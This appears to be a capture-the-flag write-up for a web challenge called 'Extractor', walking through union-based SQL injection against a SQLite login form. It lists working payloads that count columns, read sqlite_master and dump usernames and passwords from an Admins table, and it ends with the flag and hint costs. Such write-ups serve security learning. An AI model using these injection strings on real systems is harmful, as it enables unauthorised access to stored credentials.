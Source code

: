 # Extractor

When we visit challenge URL we get following response

![image](https://user-images.githubusercontent.com/86155751/183261192-f97ee77f-3037-4b5a-bf69-d412981ea60b.png)

Looking everything does gave any thing back. Let's register a user name sahil, pass sahil and content sahil. And login with it we get as below profile page.

![image](https://user-images.githubusercontent.com/86155751/183261253-89bb6ca5-c685-4312-8748-3dc3ec932d3f.png)

Nothing intresting...Knock the brain and one thing to try out at such register/login related problem where database is involved is SQL.

Starting with ' to check out if some error occour.

![image](https://user-images.githubusercontent.com/86155751/183261371-5aca8020-781f-487a-8e06-8f57cae67231.png)

![image](https://user-images.githubusercontent.com/86155751/183261385-af0f3185-a08b-436c-ab75-59bdfe6d226f.png)

Now tring some SQL payloads and observing responses.
- sahil' order by 2000;--

![image](https://user-images.githubusercontent.com/86155751/183261417-f30acca3-f18d-4605-9110-533f564242eb.png)

![image](https://user-images.githubusercontent.com/86155751/183261424-61620da2-8b29-4d73-a932-96a6d817e991.png)

We observe that 4 coloumns exists.

- sahil' union select 1,2,3,4;--

![image](https://user-images.githubusercontent.com/86155751/183261468-42c86987-cde5-4ca0-aff4-b5310f9be58b.png)

![image](https://user-images.githubusercontent.com/86155751/183261477-3e660cac-4fc6-4443-9afe-ad88bdc815ac.png)

So we can inject payloads at position 2,3,4

- sahil' union select 1,sqlite_version(),3,4;--

![image](https://user-images.githubusercontent.com/86155751/183261510-973690c8-5efb-4331-8869-be9ad5f3131b.png)

![image](https://user-images.githubusercontent.com/86155751/183261516-d4c96cd9-024d-4aa6-b441-7ef60e14314f.png)

We see that version is sqlite 3.35.5 

- sahil' union SELECT 1,group_concat(tbl_name),3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--

![image](https://user-images.githubusercontent.com/86155751/183261572-c8e60c70-d8bd-49db-89de-5a705c8abf83.png)

![image](https://user-images.githubusercontent.com/86155751/183261562-a0f364e1-7de3-400b-8973-2e5b33111637.png)

Getting the table names in database we got Admins,users

- sahil' union SELECT 1,sql,3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name='Admins';--

![image](https://user-images.githubusercontent.com/86155751/183261635-f4fad6c8-929c-4668-9401-578bc154b315.png)

![image](https://user-images.githubusercontent.com/86155751/183261624-25344a94-e923-45de-bccd-5023f0add99f.png)

We got coloumn names - id,user,pass,content

- sahil' union SELECT 1,user,3,4 from Admins;--

![image](https://user-images.githubusercontent.com/86155751/183261692-68c1ad02-a8a4-4e1c-b653-a91d4efc338f.png)

![image](https://user-images.githubusercontent.com/86155751/183261700-a2cff96e-66f8-4752-86f2-f45ad3a60b5f.png)

There exists a user named Adminnn let's read password for it

- sahil' union SELECT 1,user,pass,content from Admins;--

![image](https://user-images.githubusercontent.com/86155751/183261751-808c2f20-ad5e-463e-b285-46db2fdda2ff.png)

![image](https://user-images.githubusercontent.com/86155751/183261760-12577a32-1cbb-410a-b73c-f4f629cc6ed6.png)

We got the flag finally :- shellctf{Sql_1Nj3c7i0n_B45iC_XD}

Hints with point values (cost) :-
- Hint 1 :--- A sample query :-username' union select 1,sqlite_version(),3,4;-- (50 pts)
- Hint 1 :--- Look in Admins table with username Adminnn  (70 pts)


